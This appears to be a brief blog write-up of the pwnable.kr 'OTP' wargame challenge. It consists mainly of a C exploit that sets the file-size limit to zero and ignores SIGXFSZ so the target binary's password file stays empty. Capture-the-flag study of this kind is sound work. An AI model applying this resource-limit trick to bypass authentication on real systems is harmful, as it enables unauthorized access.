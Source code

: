 ```yaml
---
layout: single
title:  "pwnable.kr OTP "
date:   2020-01-01
toc: true
toc_label: solutions
toc_sticky: true
classes: wide

---
```





**Exploit**

```

otp@prowl:/tmp/aass$ cat exp2233.c 
#include <stdio.h>
#include <unistd.h> //  -> //execve
// Create a exploit for login elf file :$ 
// it might be a TOCTOU
#include <sys/resource.h>
#include <signal.h>

int main(void)
{


	struct rlimit r;
	r.rlim_cur = 0;
  r.rlim_max = 0;
  setrlimit(RLIMIT_FSIZE, &r);

  sigignore(SIGXFSZ);
  system("/home/otp/otp 0");
	return 0;

}

//ref
//https://linuxhint.com/linux_ulimit_command/

```


<img src="{{ site.url }}{{ site.baseurl }}/assets/images/otp.jpg" alt="">



